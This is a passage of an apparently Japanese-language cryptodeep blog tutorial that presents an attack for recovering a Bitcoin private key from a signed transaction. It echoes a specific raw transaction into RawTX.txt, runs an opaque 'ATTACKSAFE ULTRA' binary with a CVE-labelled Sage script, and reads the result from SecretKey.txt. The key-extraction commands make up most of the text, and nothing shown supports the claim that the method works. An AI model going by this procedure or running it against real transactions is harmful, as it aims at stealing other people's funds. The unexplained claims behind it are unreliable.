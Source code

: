 

<p><strong>脆弱なECDSA</strong>署名トランザクションから秘密キーを取得するには、データを<strong><code>RawTX</code>&nbsp;</strong>テキスト ドキュメントに追加し、ファイルとして保存します。<code><strong>RawTX.txt</strong></code>&nbsp;これにはユーティリティを使用します。&nbsp;<code>echo</code></p>



<blockquote class="wp-block-quote">
<p><em><strong>コマンドを実行しましょう:</strong></em></p>
</blockquote>



<pre class="wp-block-code"><code><strong>!echo '01000000010dbc696374c8d7ca61f32710e03aaedcb7a4f2428074814d0e1f4f7f5c1e5935000000008b483045022100b44a31bd81d3c596cc4d3776263229b6f52f2a729fbcafefffc9a0d955d46307022074e5feb333400732256fc44a681a1ba262b080a7cc5dfa11894e7ce4d9766c6f0141045cf7dd1ad49af6957415d6b76ff39cbf78f6e72f1db9199a01127687e7230f96614ff6f0184d2191fa7428872e311fe4ddf2b91f560b30fd7dc01d2118ac0b5bffffffff01d2040000000000001976a914d74b32dfa340da479ce64aaf5e326496eb3995f188ac00000000' &gt; RawTX.txt
!cat RawTX.txt</strong></code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2024/05/image-32-1024x261.png" alt="ビットコインネットワークにおける DeserializeSignature の脆弱性: 暗号解析、その結果、無効な ECDSA 署名が作成される可能性" class="wp-image-5241"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2 class="wp-block-heading"><code><strong>deserialization_error_vulnerability_cve-2023-0085.sage</strong></code>ソフトウェアを使って起動してみましょう<code>“ATTACKSAFE&nbsp;ULTRA”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code><strong>!./attacksafe deserialization_error_vulnerability_cve-2023-0085.sage -open RawTX.txt -save SecretKey.txt</strong></code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2024/05/image-33-1024x435.png" alt="ビットコインネットワークにおける DeserializeSignature の脆弱性: 暗号解析、その結果、無効な ECDSA 署名が作成される可能性" class="wp-image-5242"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>この攻撃は次から開始され<code><strong>deserialization_error_vulnerability_cve-2023-0085.sage</strong></code>、結果はファイルに保存されました。<code><strong>SecretKey.txt</strong></code></p>



<p>成功した結果を確認するには、ファイルを開いてください。<code><strong>SecretKey.txt</strong></code></p>



<pre class="wp-block-code"><code><strong>cat SecretKey.txt</strong></code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2024/05/image-34-1024x223.png" alt="ビットコインネットワークにおける DeserializeSignature の脆弱性: 暗号解析、その結果、無効な ECDSA 署名が作成される可能性" class="wp-image-5243"/></figure>
